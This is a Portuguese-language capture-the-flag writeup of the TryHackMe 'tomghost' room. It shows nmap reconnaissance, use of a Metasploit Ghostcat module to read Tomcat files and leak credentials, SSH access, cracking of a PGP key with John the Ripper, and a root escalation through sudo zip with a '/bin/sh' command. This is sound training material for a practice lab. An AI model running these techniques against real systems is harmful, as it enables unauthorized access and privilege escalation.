

> [!WARNING]
> This writeup is in portuguese. For the english version, please follow [this link](./Writeup%20(EN-US).md).

# [tomghost](https://tryhackme.com/room/tomghost)

<a href="https://tryhackme.com/room/tomghost"><figure></figure></a>

> Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

Capture The Flag original disponível em [Try Hack Me](https://tryhackme.com/room/tomghost), feito por [stuxnet](https://tryhackme.com/p/stuxnet).

Dificuldade: `Fácil`

Resolvido em: `2026/05/09`

# Conteúdos

- [tomghost](#tomghost)
- [Conteúdos](#conteúdos)
- [Writeup](#writeup)
   * [Reconhecimento](#reconhecimento)
   * [Exploração](#exploração)
   * [Escalação de Privilégios](#escalação-de-privilégios)

# Writeup

## Reconhecimento

Seguindo procedimentos padrões, eu tentei adicionar o IP fornecido pelo try hack me no arquivo de DNS `/etc/hosts` mas por algum motivo (o qual não identifiquei), não funcionou. Com isso, segui usando o endereço cru da máquina:

```bash
$ ping -c 3 <MACHINE_IP>
PING <MACHINE_IP> (<MACHINE_IP>) 56(84) bytes of data.
64 bytes from <MACHINE_IP>: icmp_seq=1 ttl=62 time=138 ms
64 bytes from <MACHINE_IP>: icmp_seq=2 ttl=62 time=138 ms
64 bytes from <MACHINE_IP>: icmp_seq=3 ttl=62 time=137 ms

--- <MACHINE_IP> ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 137.009/137.760/138.416/0.578 ms
```

Em seguida, usei o `nmap`[^nmap] para encontrar pontos de entrada:

```bash
$ nmap -sV -sC -p- -T4 <MACHINE_IP>
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-09 13:11 UTC
Nmap scan report for <MACHINE_IP>
Host is up (0.14s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.75 seconds
```

Temos quatro portas, `ssh:22`, `tcpwrapped:53`, `ajp13:8009` e `http:8080`. Bem, já que tenho um `http`, decidi verificar o site.

<figure></figure>

Bem, é apenas o site padrão de instalamento do `tomcat`. Olha, já que o nome da sala é "tomghost", eu assumo que deve ter um exploit sobre o `tomcat`. Pesquisando usando `searchsploit`:[^srchspl]

```bash
$ searchsploit tomcat
------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                     |  Path
------------------------------------------------------------------- ---------------------------------
...
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                  | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)    | multiple/webapps/49039.rb
...
------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

E realmente temos, o exploit `ghostcat`. A versão da máquina é `9.0.30` e não tinha nenhum específico para a versão, mas o `ghostcat` parece ser viável para qualquer versão.

<figure></figure>

Após configurar `metasploit`[^ms] com o exploit, foi possível ler um dos arquivos `xml` do servidor:

```bash
$ msfconsole
msf > use auxiliary/admin/http/tomcat_ghostcat
msf > set rhosts <MACHINE_IP>
msf > exploit
```

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:<SF_PASS>
  </description>

</web-app>
```

E, no arquivo, tinha credenciais! Usuário `skyfuck`, senha `<SF_PASS>`. 

## Exploração

Credenciais precisam ser usadas em algum lugar, e como pude ver com `gobuster`[^gobuster]:

```bash
$ gobuster dir -u http://<MACHINE_IP>:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<MACHINE_IP>:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
```

Não existe um painel no `http`. Então, retornei ao `ssh`:

```bash
$ ssh skyfuck@<MACHINE_IP>
skyfuck@ubuntu's password: <SF_PASS>
skyfuck@ubuntu:~$ whoami
skyfuck
```

E rapidamente consegui acesso! Bem, deixe eu...

```bash
skyfuck@ubuntu:~$ sudo -l
[sudo] password for skyfuck: <SF_PASS>
Sorry, user skyfuck may not run sudo on ubuntu.
```

Okay, deixa quieto. Depois de um pouco mais de exploração, pude encontrar a flag de usuário:

```bash
skyfuck@ubuntu:/home/merlin$ cat user.txt
<FLAG_USER>
```

Não foi ao única coisa interessante, dito isso:

```bash
skyfuck@ubuntu/home/skyfuck:~$ ls
credential.pgp  tryhackme.asc
```

Uma chave privada e um arquivo cifrado? Nunca vi um almoço tão grandioso. Após baixar ambos arquivos, usei John the ripper[^john] para obter a passphrase para a chave:

```bash
$ gpg2john tryhackme.asc > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)     
1g 0:00:00:00 DONE (2026-05-09 20:19) 50.00g/s 53600p/s 53600c/s 53600C/s dancer1..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Opa, `alexandru` é a passphrase. Com isso, consegui quebrar a cifragem do outro arquivo, `credential.pgp`. Primeiro adicionei a chave ao sistema:

```bash
$ gpg --import tryhackme.asc                  
gpg: keybox '/home/kali/.gnupg/pubring.kbx' created
gpg: /home/kali/.gnupg/trustdb.gpg: trustdb created
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
$ gpg --list-secret-keys
/home/kali/.gnupg/pubring.kbx
-----------------------------
sec   dsa3072 2020-03-11 [SCA]
      14B3794D5554349A715CDBA08F3DA3DEC6707170
uid           [ unknown] tryhackme <stuxnet@tryhackme.com>
ssb   elg1024 2020-03-11 [E]
```

E depois bastou usar `gpg` para decifrar o arquivo:

```bash
$ gpg --output decrypted.txt --decrypt credential.pgp 
gpg: encrypted with elg1024 key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
```

E obtive credenciais! Usuário `merlin`, e senha `<M_PASS>`. Não tinha comentado mais cedo, mas `merlin` é o outro usuário do sistema.

## Escalação de Privilégios

Com mais uma credencial, pude realizar a primeira escalação de privilégios:

```bash
$ ssh merlin@<MACHINE_IP> 
merlin@ubuntu's password: <M_PASS>
merlin@ubuntu:~$ whoami
merlin
```

Agora, não é possível que eu não consiga...

```bash
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Finalmente! Daqui o processo fica fácil. Com um comando direto de [GTFObins](https://gtfobins.org/), basta usar o `zip` para escalar para root:

```bash
merlin@ubuntu:~$ sudo zip /tmp/rooted.zip /etc/hosts -T -TT '/bin/sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
```

E uma sessão rápida de busca leva à última flag.

```bash
# pwd
/root
# cat root.txt
<FLAG_ROOT>
```

[^nmap]: https://github.com/nmap/nmap
[^gobuster]: https://github.com/OJ/gobuster
[^srchspl]: https://www.exploit-db.com/searchsploit
[^ms]: https://www.metasploit.com/
[^john]: https://github.com/openwall/john